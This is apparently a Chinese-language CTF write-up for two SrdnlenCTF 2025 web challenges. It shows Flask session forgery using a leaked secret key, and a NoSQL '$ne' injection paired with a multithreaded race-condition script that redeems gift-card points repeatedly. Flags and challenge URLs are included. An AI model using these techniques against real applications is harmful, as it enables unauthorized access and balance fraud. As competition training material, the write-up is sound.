 ```yaml
---
title: SrdnlenCTF 2025
subtitle:
date: 2025-01-23T22:34:19+08:00
slug: 4f8b201
draft: false
author: 
  name: M1ng2u
  link:
  email:
  avatar:
description:
keywords:
license:
comment: true
weight: 0
tags:
  - CTF
categories:
  - CTF
hiddenFromHomePage: false
hiddenFromSearch: false
hiddenFromRelated: false
hiddenFromFeed: false
summary:
resources:
  - name: featured-image
    src: featured-image.jpg
  - name: featured-image-preview
    src: featured-image-preview.jpg
toc: true
math: true
lightgallery: false
password:
message:
repost:
  enable: true
  url:

# See details front matter: https://fixit.lruihao.cn/documentation/content-management/introduction/#front-matter
---
```


# srdnlen

## web

### Ben 10

题目描述说 Ben 10 有好东西，但是注册账号后发现不让访问

附件中的 app.py 给出了 app.secret_key = 'your_secret_key'

把 jwt 用 flask-session-cookie-manager 解密，发现只有 username

![m63nh67z.png](https://mingzu.oss-cn-hongkong.aliyuncs.com/2025/01/19/678cfd4f54791.png)

从 app.py 中可以看到注册用户时也一起注册了一个对应的 admin 用户

```py
@app.route('/register', methods=['GET', 'POST'])
def register():
    admin_username = f"admin^{username}^{secrets.token_hex(5)}"
    cursor.execute("INSERT INTO users (username, password, admin_username) VALUES (?, ?, ?)",
                           (admin_username, admin_password, None))
    conn.commit()
```

而 admin_username 在 /home 中显示

![m63nkpbe.png](https://mingzu.oss-cn-hongkong.aliyuncs.com/2025/01/19/678cfdf3f35a2.png)

所以进行 session 伪造

![m63nntuw.png](https://mingzu.oss-cn-hongkong.aliyuncs.com/2025/01/19/678cfe85f3d47.png)

GET /image/ben10 ，拿到 flag

![m63nsvou.png](https://mingzu.oss-cn-hongkong.aliyuncs.com/2025/01/19/678cff71b7ebf.png)

> srdnlen{b3n_l0v3s_br0k3n_4cc355_c0ntr0l_vulns}

### Focus. Speed. I am speed.

群里师傅说打 nosql + 竞争，那我就照着打了qwq

![m63oa7cc.png](https://mingzu.oss-cn-hongkong.aliyuncs.com/2025/01/19/678d0299e048f.png)

应该要买第4个，50 points

![m63ocvz8.png](https://mingzu.oss-cn-hongkong.aliyuncs.com/2025/01/19/678d0317070ee.png)

网页都访问一遍，发现在 GET /redeem?discountCode=xxx 有查询

翻一下代码，顺着找到：

routes.js

```javascript
const discount = await DiscountCodes.findOne({discountCode})
```

discountCodes.js

```javascript
const DiscountCodeSchema = new mongoose.Schema({
    discountCode: {
        type: String,
        default: null, // Optional field for discount codes
    },
    value: {
        type: Number,
        default: 10
    }
})

module.exports = mongoose.model('DiscountCodes', DiscountCodeSchema)
```

注一下试试看，确实可以

![m63pxcd8.png](https://mingzu.oss-cn-hongkong.aliyuncs.com/2025/01/19/678d0d6126433.png)

但是礼品卡说是一天只能兑换一次，找代码

routes.js

```javascript
// Check if the voucher has already been redeemed today
        const today = new Date();
        const lastRedemption = user.lastVoucherRedemption;

        if (lastRedemption) {
            const isSameDay = lastRedemption.getFullYear() === today.getFullYear() &&
                              lastRedemption.getMonth() === today.getMonth() &&
                              lastRedemption.getDate() === today.getDate();
            if (isSameDay) {
                return res.json({success: false, message: 'You have already redeemed your gift card today!' });
            }
        }

        // Apply the gift card value to the user's balance
        const { Balance } = await User.findById(req.user.userId).select('Balance');
        user.Balance = Balance + discount.value;
        // Introduce a slight delay to ensure proper logging of the transaction 
        // and prevent potential database write collisions in high-load scenarios.
        new Promise(resolve => setTimeout(resolve, delay * 1000));
        user.lastVoucherRedemption = today;
        await user.save();
```

在保存之前，setTimeout(delay * 1000 ms)，所以我们通过并发请求访问 balance 来制造竞争条件

一直 buy 第一辆🚗，然后重复兑换礼品卡

```py
import time
import requests
import threading
import json

url = "http://speed.challs.srdnlen.it:8082"

# 账号注册
url_register = f"{url}/register-user"
data_user = {"username": "mingzuxxxxxxxxxxxxxxx", "password": "123"}
try:
    response = requests.post(url_register, json=data_user)
    jwt = response.headers["Set-Cookie"].split(";")[0].split("=")[1]
    print(jwt)
except Exception as e:
    print(e)

# 竞争
url_store = f"{url}/store"
headers = {'Cookie': f'jwt={jwt}',}
data_buy = {"productId": 1}

def send_request():
    try:
        response = requests.post(url_store, headers=headers, json=data_buy)
        # print(f"Status Code: {response.status_code}, Response Text: {response.text}")
    except Exception as e:
        print(f"Request failed: {e}")

def send_requests():
    while True:
        send_request()

def race(thread_num):
    threads = []
    for _ in range(thread_num):
        thread = threading.Thread(target=send_requests)
        threads.append(thread)
        thread.start()

    for thread in threads:
        thread.join()

# 偷点数
url_redeem = f"{url}/redeem?discountCode[$ne]=1"

def steal_points():
    while True:
        try:
            response = requests.get(url_redeem, headers=headers)
            # print(f"Status Code: {response.status_code}, Response Text: {response.text}")
            if json.loads(response.text)["success"]:
                print(f"Steal Points Successfully: {json.loads(response.text)["message"]}")
        except Exception as e:
            print(f"Request failed: {e}")

def steal_points_rapidly(thread_num):
    threads = []
    for _ in range(thread_num):
        thread = threading.Thread(target=steal_points)
        threads.append(thread)
        thread.start()

    for thread in threads:
        thread.join()

# steal_points()

# 执行
def execute():
    thread_race = threading.Thread(target=race, args=(100,))
    thread_steal = threading.Thread(target=steal_points_rapidly, args=(100,))

    thread_race.start()
    time.sleep(1)
    thread_steal.start()

execute()
```

![m63t610z.png](https://mingzu.oss-cn-hongkong.aliyuncs.com/2025/01/20/678d22a51cff7.png)

拿到 60 points ，买到辣

![m63t79zl.png](https://mingzu.oss-cn-hongkong.aliyuncs.com/2025/01/20/678d22df872ca.png)

> srdnlen{6peed_1s_My_0nly_Competition}

